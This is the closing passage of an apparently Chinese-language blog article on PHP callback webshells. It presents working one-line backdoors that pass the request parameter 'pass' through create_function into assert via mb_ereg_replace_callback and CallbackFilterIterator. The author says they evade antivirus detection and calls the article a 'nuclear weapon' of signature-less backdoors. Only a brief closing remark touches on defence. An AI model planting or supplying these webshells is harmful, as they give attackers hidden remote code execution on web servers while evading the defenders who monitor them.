 “创造”一个函数，它接受一个数组，并将数组的第一个元素`$arr[0]`传入`assert`。

这也是一个不杀不报稳定执行的回调后门，但因为有`create_function`这个敏感函数，所以看起来总是不太爽。不过也是没办法的事。 类似的，这个也同样：

```
mb_ereg_replace_callback('.+', create_function('$arr', 'return assert($arr[0]);'),$_REQUEST['pass']);

```

再来一个利用`CallbackFilterIterator`方法的回调后门：

```
$iterator = new CallbackFilterIterator(new ArrayIterator(array($_REQUEST['pass'],)), create_function('$a', 'assert($a);'));
foreach ($iterator as $item) {
    echo $item;
}

```

这里也是借用了`create_function`来创建回调函数。但有些同学就问了，这里创建的回调函数只有一个参数呀？实际上这里如果传入`assert`，是会报错的，具体原因自己分析。

0x09 后记
=====

这一篇文章，就像一枚核武器，爆出了太多无特征的一句话后门。我知道相关厂商在看了文章以后，会有一些小动作。不过我既然敢写出来，那么我就敢保证这些方法是多么难以防御。

实际上，回调后门是灵活且无穷无尽的后门，只要php还在发展，那么就有很多很多拥有回调函数的后门被创造。想要防御这样的后门，光光去指哪防哪肯定是不够的。

简单想一下，只有我们去控制住assert、preg_replace这类函数，才有可能防住这种漏洞。